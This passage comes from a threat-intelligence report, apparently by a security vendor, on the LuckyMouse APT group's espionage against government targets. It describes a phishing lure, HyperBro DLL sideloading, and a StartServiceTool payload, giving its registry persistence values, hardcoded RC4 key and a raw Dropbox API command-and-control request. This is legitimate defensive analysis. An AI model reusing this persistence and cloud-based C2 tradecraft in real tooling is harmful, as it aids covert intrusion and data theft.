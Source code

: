 In April 2019, PaloAlto Networks released a blogpost about LuckyMouse. According to the post, the group installed webshells on a SharePoint server to compromise Government Organizations in the Middle East. Similarly, the group used several publicly known and available tools (such as mimikatz, curl, ntbscan). But what got our attention was the fact that the same HyperBro RAT was used in the campaign we were analyzing. The APT attack we analyzed also used a DLL sideloading technique, although with different executables. The executable used was a Symantec application thinprobe.exe that loads thinhostprobedll.dll. This DLL was then used to sideload thumb.db that contained encrypted and compressed HyperBro[3].
We’ve also discovered a Polpo backdoor in the network belonging to the National Data Center of Mongolia. This backdoor was accompanied by samples that are known to be used by the LuckyMouse group which lead us to the conclusion that this backdoor is a new addition into LuckyMouse’s toolkit. We also observed more common tools, e.g. VMProtect-obfuscated Earthworm tunneler, a custom installer dropping NDISProxy network filtering driver, and various network scanners.
Infection Chain
We observed that this APT group was also targeting an unknown company that was providing services to government institutions in East Asia. The group infiltrated the company’s computers and managed to harvest credentials belonging to the company’s email accounts. Unfortunately, we haven’t been able to identify which attack vector was used in this infiltration. These credentials were then used to send emails from the hacked company’s email accounts to the government officials. While we were unable to recover the whole email, we’ve managed to recover the email’s header. The header indicates that these emails were asking the recipient to update a firmware, i.e. launch a self-extracting 7-zip archive attached to this email.
Date: Sun, 28 Jun 2020 20:43:08 +0800 (ULAT) Subject: Re: Perform a firmware update on the server
XXXXXX_update.exe 
(sha256:2D2EA3002C367684F21AD08BDC9B5079EBDEE08B6356AC5694EFA139D4C6E60D)
This archive drops three already familiar files – Symantec’s thinprobe.exe, malicious thinhostprobedll.dll, and thumb.db. The malicious DLL is used for DLL sideloading, decrypting and decompressing thumb.db and finally loading its processed content – a HyperBro RAT . This backdoor has also been reported on by Kaspersky[1] and PaloAlto Networks[3], the latter providing an extensive description of the HyperBro RAT.
Figure 1: Overview of infection vector

Toolset
In this following section we describe a tool set we found on the victim’s PC, used by the APT group for cyber-espionage and lateral movement through the network. We could divide these tools into three categories:
Helpers: ServiceInstaller, ShellCodeExecutor, DataExtractor 1/2, Information CollectorRemote access: StartServiceTool, Korplug, LuckyBack, BlueTraveller, PolpoPublicly available tools: UAC bypass tool, port scanners, password dumpers, FRP, Earthworm tunneler
In detail, we found the following tools:
StartServiceTool
This tool installs wcm.dll into %WINDIR%\system32, a registry record
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WindowsConnections Manager
is created with the following values:
Description: Makes automatic connect/disconnect decisions based on the network connectivity options currently available to the PC and enables management of network connectivity based on Group Policy settings.
DisplayName: Windows Connections Manager
ServiceDll: C:\Windows\system32\wcm.dll.
This effectively creates a new service. The dropped binary is a 32-bit service DLL that has two parts – embedded DLL, and mmLoader (http://tishion.github.io/mmLoader/), a loader that bypasses the windows loader.
The final payload DLL is written in GO and contains a single export named “Interface“. This function expects 4 arguments consisting of two strings and their corresponding lengths. The string values specify the victim ID and the Dropbox API key to use. The API key is passed in as an RC4 encrypted + base64 encoded value.The hardcoded decryption key is “0000111122223333“. The DLL additionally contains a default API key which appears to be for the authors test account.
Initially, it tries do download a file from Dropbox via the HTTP API:
POST /2/files/download HTTP/1.1Host: content.dropboxapi.comUser-Agent: Go-http-client/1.1Content-Length: 0Authorization: Bearer [snipped]Dropbox-Api-Arg: {“path”: “/infos/000000.txt”}Accept-Encoding: gzip
If the server responds with a file, it tries to upload a file with a timestamp and a hostname onto Dropbox: